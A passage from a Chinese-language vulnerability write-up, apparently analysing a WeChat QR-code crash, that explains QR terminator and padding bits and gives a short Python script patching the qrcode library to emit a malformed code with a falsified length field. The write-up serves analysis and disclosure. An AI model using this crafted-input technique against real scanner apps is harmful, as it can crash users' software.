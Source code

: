 ### 1.2.7 添加终止符

添加1~4个0（bit）使得达到所要求的位数；添加了终止符后如果bit数不是8的倍数则继续添加0使得为8的倍数；如果最终的bit串仍然太短，则添加填充字符11101100 00010001。

### 2、 二维码基础

这里会介绍二维码创建的部分步骤，以用来分析后续的畸形二维码。

### 2.1 代码

``` Python
import qrcode  
from qrcode.util import \*  
  
def hack\_put(self, num, len):  
 if num == 0:  
     num = 2 # faker length of hack\_data  
 for i in range(len):  
     self.put\_bit(((num >> (len - i - 1)) & 1) == 1)  
qrcode.util.BitBuffer.put = hack\_put  
qr = qrcode.QRCode(2, qrcode.constants.ERROR\_CORRECT\_Q, mask\_pattern=0)  
data = "tested by InsBug".encode("utf-8")  
data += b' ' \* (22-len(data)-3)  
\# 22为2-Q的Total Number of Data Codewords for this Version and EC Level，-3是由于模式和长度指示器共占了24位，正好为3Byte。  
user\_data=QRData(data, MODE\_8BIT\_BYTE)  
hack\_data=QRData(b'', MODE\_8BIT\_BYTE)  
qr.add\_data(user\_data)  
qr.add\_data(hack\_data)  
  
img = qr.make\_image()  
img.save(".png")
```

### 2.2 生成结果及扫描结果

![](./wechat-qr-code-crash-analysis/assets/17617398215170.9858579488527592.png)
